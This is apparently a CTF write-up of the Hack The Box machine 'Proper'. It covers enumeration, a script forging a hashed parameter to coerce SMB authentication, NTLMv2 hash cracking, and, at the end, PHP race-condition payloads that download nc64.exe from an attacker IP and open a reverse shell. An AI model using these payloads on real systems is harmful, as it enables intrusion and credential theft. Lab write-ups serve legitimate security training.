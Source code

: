 # Proper 
#HTB #CTF  
Rank : hard
IP : 10.10.10.231
OS : Windows

Setup 
```bash
echo "10.10.10.231 proper.htb" > /etc/hosts
```


# Recon

Fire up nmap 
```bash
nmap -sV -sC -v -P- -o nmapscan proper.htb
PORT   STATE SERVICE VERSION  
80/tcp open  http    Microsoft IIS httpd 10.0  
| http-methods:    
|   Supported Methods: OPTIONS TRACE GET HEAD POST  
|\_  Potentially risky methods: TRACE  
|\_http-server-header: Microsoft-IIS/10.0  
|\_http-title: OS Tidy Inc.  
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows
```

Lets go to the webpage. 

![[Pasted image 20210523122504.png]]

![[proper.pdf]]
Always start by looking at the source code of the page for any information 

As you see blow the id of these element looks very similar to usernames.
![[Pasted image 20210523123453.png]]

*User*
dustin
daksh
anna
wafer

And what appear to be hash id
![[Pasted image 20210523124404.png]]

hash = a1b30d31d344a5a4e41e8496ccbdd26b

Seems to be md5 hash. 

If you follow the link and remove the parameters to get to this source code 

![[Pasted image 20210523124645.png]]

Salt: hie0shah6ooNoim

What I see there two options salt\$hash or hash\$salt. 


While I was look at source code I started to do some enumeration on the site for looking for sites.  

```bash
└──╼ $ gobuster dir -u http://proper.htb -w /usr/share/wordlists/SecLists/Discovery/Web-Content/raft-small-words.txt -t 50 -k  
\===============================================================  
Gobuster v3.1.0  
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)  
\===============================================================  
\[+\] Url:                     http://proper.htb  
\[+\] Method:                  GET  
\[+\] Threads:                 50  
\[+\] Wordlist:                /usr/share/wordlists/SecLists/Discovery/Web-Content/raft-small-words.txt  
\[+\] Negative Status codes:   404  
\[+\] User Agent:              gobuster/3.1.0  
\[+\] Timeout:                 10s  
\===============================================================  
2021/05/23 12:27:33 Starting gobuster in directory enumeration mode  
\===============================================================  
/assets               (Status: 301) \[Size: 148\] \[--> http://proper.htb/assets/\]  
/.                    (Status: 200) \[Size: 14257\]                                 
/Assets               (Status: 301) \[Size: 148\] \[--> http://proper.htb/Assets/\]  
/licenses             (Status: 301) \[Size: 150\] \[--> http://proper.htb/licenses/\]  
/LICENSES             (Status: 301) \[Size: 150\] \[--> http://proper.htb/LICENSES/\]  
/ASSETS               (Status: 301) \[Size: 148\] \[--> http://proper.htb/ASSETS/\]     
/Licenses             (Status: 301) \[Size: 150\] \[--> http://proper.htb/Licenses/\]  
```

Assets lead us to 403 page. 
Licenses give us a login page. 
![[Pasted image 20210523123159.png]]

creds: 
vikki.solomon@throwaway.mail / password1


read.sh
```bash
#!/bin/bash

HOST=proper.htb
SALT=hie0shah6ooNoim
TRAV=$1
USER=vikki.solomon@throwaway.mail 
PASS=password1
COOKIE=$(mktemp -u)
PROXY=127.0.0.1:8080

#login
curl -c $COOKIE -s -o /dev/nul http://$HOST/licenses/index.php
curl -s \
	 -b $COOKIE \
	 -o /dev/null \
	 -d "username=${USER}&password=${PASS}" \
	 http://$HOST/licenses/index.php
	 
# SMB
curl -s \
	 -b $COOKIE \
	 -G \
	 -d "theme=${TRAV}" \
	 -d "h=$(echo -n ${SALT}${TRAV} | md5sum | cut -d' ' -f1)" \
	 -o /dev/null \
	 http://$HOST/licenses/licenses.php
	 
	 
# clean up 
rm -rf $COOKIE

```


smbserver 

```bash
sudo smbserver.py .ip 10.10.14.19 -smb2support  
Impacket v0.9.23.dev1+20210517.123049.a0612f00 - Copyright 2020 SecureAuth Corporation  
  
\[\*\] Config file parsed  
\[\*\] Callback added for UUID 4B324FC8-1670-01D3-1278-5A47BF6EE188 V:3.0  
\[\*\] Callback added for UUID 6BFFD098-A112-3610-9833-46C3F87E345A V:1.0  
\[\*\] Config file parsed  
\[\*\] Config file parsed  
\[\*\] Config file parsed  
\[\*\] Incoming connection (10.10.10.231,51107)  
\[\*\] AUTHENTICATE\_MESSAGE (PROPER\\web,PROPER)  
\[\*\] User PROPER\\web authenticated successfully  
\[\*\] web::PROPER:aaaaaaaaaaaaaaaa:31c57ecad889ff706a19613a9ac43cf7:010100000000000080c0829ac94fd701917fc90872e5853c000000000100100076004100700047004800420052006400030010007600410070004700480042005200640  
002001000740076006d006800650071005300500004001000740076006d00680065007100530050000700080080c0829ac94fd7010600040002000000080030003000000000000000000000000020000031e4fa0b370783744895f0fb54460897ccef8ad6  
90cf42d360f3fd502db9edc90a001000000000000000000000000000000000000900200063006900660073002f00310030002e00310030002e00310034002e00310039000000000000000000
```

Crack the hash using john 
```bash
sudo john hash --wordlist=/usr/share/wordlists/rockyou.txt  
Using default input encoding: UTF-8  
Loaded 1 password hash (netntlmv2, NTLMv2 C/R \[MD4 HMAC-MD5 32/64\])  
Will run 8 OpenMP threads  
Press 'q' or Ctrl-C to abort, almost any other key for status  
charlotte123!    (web)  
1g 0:00:00:05 DONE (2021-05-23 14:53) 0.1992g/s 197456p/s 197456c/s 197456C/s chrismmy..chaqueto  
Use the "--show --format=netntlmv2" options to display all of the cracked passwords reliably  
Session completed
```
creds : web/charlotte123!

race condition scripts

```bash
#!/bin/bash
PAYLOAD=$1

while :; do
	echo hello world > header.inc
	echo "$PAYLOAD" > header.inc
done

```

```bash
./race.sh '<?php system("cmd /c powershell iwr http://10.10.14.19/nc64.exe -outf \windows\system32\spool\drivers\color\cute.exe"); ?>'

./race.sh '<?php system("cmd /c start \windows\system32\spool\drivers\color\cute.exe 10.10.14.19 1234 -e cmd.exe"); ?>'

```